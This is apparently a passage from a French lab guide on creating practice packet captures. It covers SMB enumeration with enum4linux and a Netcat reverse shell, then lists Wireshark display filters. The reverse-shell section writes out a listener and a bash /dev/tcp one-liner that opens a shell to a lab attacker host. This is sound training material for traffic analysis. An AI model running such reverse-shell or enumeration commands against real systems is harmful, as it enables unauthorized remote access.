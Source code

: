 **Scénario** : Capture d'énumération SMB avec enum4linux

**Comment créer cette capture** :
```bash
# Capturer SMB
tcpdump -i eth0 -w smb_enumeration.pcap port 139 or port 445

# Énumération
enum4linux -a 192.168.100.20
```

**Ce que vous trouverez** :
- Handshake SMB
- Requêtes d'énumération (users, shares, policies)
- Réponses SMB

---

### 10. `reverse_shell.pcap` - Reverse Shell

**Scénario** : Capture d'un reverse shell Netcat

**Comment créer cette capture** :
```bash
# Sur Kali, démarrer le listener
nc -lvnp 4444

# Capturer
tcpdump -i eth0 -w reverse_shell.pcap port 4444

# Sur la cible, établir le reverse shell
bash -i >& /dev/tcp/192.168.100.10/4444 0>&1
```

**Ce que vous trouverez** :
- Connexion TCP établie
- Commandes shell encodées
- Résultats des commandes

---

## 🔍 Analyse des PCAPs avec Wireshark

### Commandes Wireshark utiles

**Ouvrir un fichier PCAP** :
```bash
wireshark capture.pcap
```

**Filtres display courants** :
```
http                          # Tout le trafic HTTP
http.request                  # Requêtes HTTP uniquement
http.request.method == "POST" # POST requests
tcp.port == 80                # Trafic sur port 80
ip.addr == 192.168.100.20     # Trafic depuis/vers cette IP
tcp.flags.syn == 1            # Paquets SYN
ftp or ssh or telnet          # Protocoles en clair
```
